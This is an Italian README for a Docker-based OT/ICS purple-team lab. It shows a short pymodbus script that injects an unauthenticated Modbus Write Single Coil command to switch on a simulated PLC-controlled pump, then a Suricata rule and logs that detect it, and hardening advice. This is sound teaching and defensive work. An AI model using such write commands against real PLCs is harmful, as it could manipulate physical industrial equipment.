




# OT/ICS Purple Team Lab: Modbus TCP Command Injection & Suricata IDS Detection

Questo progetto implementa un laboratorio containerizzato per la simulazione di uno scenario **Purple Team (Attacco e Difesa)** su infrastrutture industriali **OT/ICS (Operational Technology / Industrial Control Systems)**. L'ambiente riproduce il controllo di una pompa industriale gestita da un PLC e supervisionata da uno SCADA, dimostrando l'assenza di autenticazione nativa nel protocollo **Modbus TCP** (Red Team) e l'implementazione di regole di **Deep Packet Inspection (DPI)** tramite **Suricata IDS** per il rilevamento delle intrusioni (Blue Team).

---

## 1. Architettura del Laboratorio

L'infrastruttura è orchestrata tramite Docker Compose sulla rete bridge isolata `ot_net` (`172.21.0.0/16`) e comprende quattro nodi:

| Container | Immagine Docker | Ruolo nel Modello Purdue | Porte / Rete | Descrizione |
| :--- | :--- | :--- | :--- | :--- |
| **`openplc`** | `tuttas/openplc_v3:latest` | Level 1 (Basic Control) | `8081:8080`, `502:502` (`172.21.0.3`) | PLC virtuale che esegue la logica di controllo della pompa in Structured Text (`pompa.st`). |
| **`fuxa`** | `frangoteam/fuxa:latest` | Level 2 (Supervisory SCADA/HMI) | `1881:1881` (`172.21.0.2`) | Interfaccia HMI/SCADA che interroga ciclicamente lo stato della bobina del PLC. |
| **`attacker`** | `kalilinux/kali-rolling:latest` | Red Team Node | `ot_net` (`172.21.0.4`) | Macchina attaccante con permessi `NET_ADMIN` e `NET_RAW` per sniffing e iniezione pacchetti. |
| **`ids`** | `jasonish/suricata:latest` | Blue Team Sensor (NIDS) | `service:openplc` (`eth0`) | Sensore IDS collegato allo stack di rete del PLC per l'ispezione del traffico Modbus sulla porta `502`. |

### Struttura della Repository

```text
mio-progetto/
├── docker-compose.yml          # Orchestrazione dei container OT, Red Team e IDS
├── pompa.st                    # Logica PLC IEC 61131-3 (Structured Text)
├── exploit.py                  # Script Python (pymodbus) per Command Injection (FC 05)
├── suricata-rules/
│   └── custom.rules            # Firma Suricata custom per il rilevamento di Modbus FC 05
└── README.md                   # Documentazione tecnica e report Purple Team
```

---

## 2. Configurazione dell'Ambiente

### Logica di Controllo del PLC (`pompa.st`)

Il PLC esegue il programma `ControlloPompa` scritto secondo lo standard IEC 61131-3 Structured Text. La variabile booleana `Stato_Pompa` è mappata direttamente sul registro fisico di uscita `%QX0.0` (Coil `0` in Modbus) con un tempo di scansione (`TaskMain`) di `50ms`:

```iecst
PROGRAM ControlloPompa
  VAR
    Stato_Pompa AT %QX0.0 : BOOL := FALSE;
  END_VAR

  Stato_Pompa := Stato_Pompa;
END_PROGRAM

CONFIGURATION Config0
  RESOURCE Res0 ON PLC
    TASK TaskMain(INTERVAL := T#50ms, PRIORITY := 1);
    PROGRAM Inst0 WITH TaskMain : ControlloPompa;
  END_RESOURCE
END_CONFIGURATION
```

### Orchestrazione Docker (`docker-compose.yml`)

Il sensore `ids` condivide il namespace di rete del container `openplc` (`network_mode: "service:openplc"`) per ispezionare direttamente tutti i pacchetti in ingresso sull'interfaccia `eth0` del PLC:

```yaml
services:
  openplc:
    image: tuttas/openplc_v3:latest
    container_name: openplc
    ports:
      - "8081:8080"
      - "502:502"
    networks:
      - ot_net

  fuxa:
    image: frangoteam/fuxa:latest
    container_name: fuxa
    ports:
      - "1881:1881"
    networks:
      - ot_net

  attacker:
    image: kalilinux/kali-rolling:latest
    container_name: attacker
    tty: true
    stdin_open: true
    networks:
      - ot_net
    cap_add:
      - NET_ADMIN
      - NET_RAW

  ids:
    image: jasonish/suricata:latest
    container_name: ids
    network_mode: "service:openplc"
    cap_add:
      - NET_ADMIN
      - NET_RAW
    volumes:
      - ./suricata-rules:/etc/suricata/rules
    command: -i eth0 -k none -S /etc/suricata/rules/custom.rules

networks:
  ot_net:
    driver: bridge
```

---

## 3. Red Team: Ricognizione e Exploitation

### Fase 1: Ricognizione e Analisi del Traffico Modbus TCP

Intercettando il traffico sulla porta `502` con `tcpdump`, è possibile osservare il polling ciclico (ogni secondo) inviato dallo SCADA FUXA (`172.21.0.2`) verso OpenPLC (`172.21.0.3`):

```bash
tcpdump -i eth0 port 502 -X
```

**Pacchetto di richiesta (FUXA -> OpenPLC):**
```text
14:06:26.782663 IP fuxa.mio-progetto_ot_net.44020 > openplc.502: Flags [P.], length 12
        0x0030:  4339 c56e 00c8 0000 0006 0101 0000 0001
```
*   **MBAP Header (`00 c8 00 00 00 06 01`):** Transaction ID `0x00c8`, Protocol ID `0x0000` (Modbus), Length `6` byte, Unit ID `0x01`.
*   **PDU (`01 00 00 00 01`):** Function Code `01` (*Read Coils*), Starting Address `0x0000` (`%QX0.0`), Quantity of Coils `1`.

### Fase 2: Command Injection (Modbus Function Code 05)

Poiché Modbus TCP opera in chiaro ed è privo di meccanismi di autenticazione o controllo degli accessi, qualsiasi nodo sulla rete può inviare comandi di scrittura al PLC. Lo script `exploit.py` utilizza la libreria `pymodbus` per iniettare un comando **Function Code 05 (Write Single Coil)** e forzare l'accensione della pompa:

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient('openplc', port=502)
client.connect()

# Iniezione del comando Write Single Coil (FC 05) su %QX0.0 (address=0)
client.write_coil(address=0, value=True)
print("[!] Comando malevolo inviato: Pompa ACCESA (Function Code 05)")

client.close()
```

**Effetto sull'HMI FUXA:**
L'iniezione del pacchetto forza istantaneamente l'accensione della pompa, come visibile dall'aggiornamento visivo (da rosso a verde) sull'interfaccia SCADA FUXA sulla porta `1881`:




**Verifica tramite Packet Capture (`tcpdump`):**
Durante l'esecuzione dell'exploit, l'analisi esadecimale conferma la trasmissione del payload malevolo:

```text
16:04:44.421817 IP attacker.53010 > openplc.502: Flags [P.], seq 1:13, ack 1, win 64, length 12
        0x0030:  2116 b1e5 0001 0000 0006 0105 0000 ff00
```

| Campo | Byte (Hex) | Significato |
| :--- | :--- | :--- |
| **Transaction ID** | `00 01` | Identificativo della transazione TCP |
| **Protocol ID** | `00 00` | Protocollo Modbus TCP standard |
| **Length** | `00 06` | Lunghezza dei byte successivi (6 byte) |
| **Unit ID** | `01` | Indirizzo dello Slave / PLC |
| **Function Code** | `05` | **Write Single Coil** (Scrittura singola bobina) |
| **Output Address** | `00 00` | Indirizzo della bobina target (`Coil 0` / `%QX0.0`) |
| **Output Value** | `ff 00` | Valore di forzatura stato **ON (`TRUE`)** (`00 00` per OFF) |

Subito dopo l'iniezione, la risposta del PLC al polling di FUXA cambia in `01 01 01` (stato bobina a `1`), confermando la compromissione fisica simulata sull'HMI.

---

## 4. Blue Team: Intrusion Detection con Suricata

### Scrittura della Regola IDS (`suricata-rules/custom.rules`)

Per rilevare scritture non autorizzate sulle bobine del PLC, è stata creata una firma personalizzata che ispeziona il payload TCP diretto alla porta `502`. Nel frame Modbus TCP, i primi 7 byte costituiscono l'intestazione **MBAP** (byte `0–6`); l'ottavo byte (`offset:7; depth:1;`) contiene esattamente il **Function Code**:

```suricata
alert tcp any any -> any 502 (msg:"OT ALERT - Unauthorized Modbus Write Single Coil (FC05)"; content:"|05|"; offset:7; depth:1; sid:1000001; rev:2;)
```

> **Nota di Produzione (Whitelisting IP):** In un impianto reale in cui anche lo SCADA invia legittimamente comandi `FC 05`, la regola va ristretta escludendo l'IP dell'HMI tramite negazione: `alert tcp !$FUXA_IP any -> $PLC_IP 502 (...)`.

### Troubleshooting & Note Operative Docker

Durante il deployment del sensore NIDS in ambiente containerizzato su host Windows sono state risolte tre problematiche:
1.  **TCP Checksum Offloading (`-k none`):** Il kernel Linux non calcola i checksum TCP per i pacchetti che transitano sui veth bridge virtuali di Docker. Senza il flag `-k none` nel comando di avvio di Suricata, i pacchetti vengono scartati come corrotti prima di raggiungere il motore di detection.
2.  **Visibilità del Traffico (`eth0` vs `lo`):** Il modulo `af-packet` di Suricata richiede il transito sull'interfaccia di rete virtuale `eth0`; separando il nodo `attacker` su `ot_net`, l'exploit attraversa lo stack di rete del PLC venendo intercettato dal sensore.
3.  **Codifica del file `.rules` (Rimozione UTF-8 BOM):** Su Windows, il salvataggio con codifica UTF-8 con BOM inserisce i byte `EF BB BF` a inizio file, causando l'errore `E: detect-parse: An invalid action "alert" was given`. Il file va generato in codifica ASCII pura:
    ```powershell
    Set-Content -Path .\suricata-rules\custom.rules -Value 'alert tcp any any -> any 502 (msg:"OT ALERT - Unauthorized Modbus Write Single Coil (FC05)"; content:"|05|"; offset:7; depth:1; sid:1000001; rev:2;)' -Encoding Ascii
    ```

### Verifica del Rilevamento (Log Analysis)

Monitorando il file strutturato `/var/log/suricata/eve.json` (o `/var/log/suricata/fast.log`) durante l'esecuzione di `exploit.py`:

```powershell
docker exec -it ids sh -c "tail -f /var/log/suricata/eve.json | grep alert"
```

Suricata registra in tempo reale l'evento di compromissione identificando l'IP attaccante (`172.21.0.4`), il PLC target (`172.21.0.3:502`) e la firma `sid:1000001`:

```json
{
  "timestamp": "2026-11-10T20:47:07.292727+0000",
  "flow_id": 974743126801060,
  "in_iface": "eth0",
  "event_type": "alert",
  "src_ip": "172.21.0.4",
  "src_port": 55570,
  "dest_ip": "172.21.0.3",
  "dest_port": 502,
  "proto": "TCP",
  "ip_v": 4,
  "pkt_src": "wire/pcap",
  "alert": {
    "action": "allowed",
    "gid": 1,
    "signature_id": 1000001,
    "rev": 2,
    "signature": "OT ALERT - Unauthorized Modbus Write Single Coil (FC05)",
    "category": "",
    "severity": 3
  },
  "direction": "to_server",
  "flow": {
    "pkts_toserver": 3,
    "pkts_toclient": 1,
    "bytes_toserver": 218,
    "bytes_toclient": 74,
    "start": "2026-11-10T20:47:07.292486+0000",
    "src_ip": "172.21.0.4",
    "dest_ip": "172.21.0.3",
    "src_port": 55570,
    "dest_port": 502
  }
}
```

**Rilevamento in `fast.log`:**
In alternativa, consultando il log rapido, l'evento si presenta compatto e facilmente leggibile, intercettato con successo come mostrato di seguito:



---

## 5. Riproduzione Rapida del Laboratorio

1. **Avvio dei container:**
   ```powershell
   docker compose up -d
   ```
2. **Attivazione del PLC:**
   Accedere a `http://localhost:8081` (credenziali default: `openplc` / `openplc`), caricare il programma `pompa.st` nella sezione *Programs* e premere **Start PLC**.
3. **Avvio del monitoraggio IDS (Terminale 1):**
   ```powershell
   docker exec -it ids tail -f /var/log/suricata/fast.log
   ```
   
4. **Esecuzione dell'attacco (Terminale 2):**
   ```powershell
   docker exec -it attacker python3 exploit.py
   ```

   

---

## 6. Raccomandazioni di Hardening (IEC 62443)

*   **Segmentazione di Rete (Zone & Conduits):** Isolare i dispositivi di Livello 1 (PLC) e Livello 2 (SCADA) in VLAN dedicate protette da firewall industriali dotati di ispezione applicativa Modbus TCP.
*   **Access Control List (ACL) rigorose:** Consentire il traffico diretto alla porta `502/TCP` del PLC esclusivamente dall'indirizzo IP statico e dal MAC address del server SCADA autorizzato (`fuxa`).
*   **Modbus Application Firewalling:** Bloccare a livello di firewall tutti i Function Code di scrittura (`05`, `06`, `15`, `16`) provenienti da nodi di monitoraggio in sola lettura (es. Historian o Engineering Workstation non in modalità manutenzione).
*   **Adozione di Modbus TCP Security:** Ove supportato dall'hardware, migrare allo standard **Modbus/TCP Security ( Porta 802/TCP)** basato su TLS (Transport Layer Security) con autenticazione mutua tramite certificati X.509.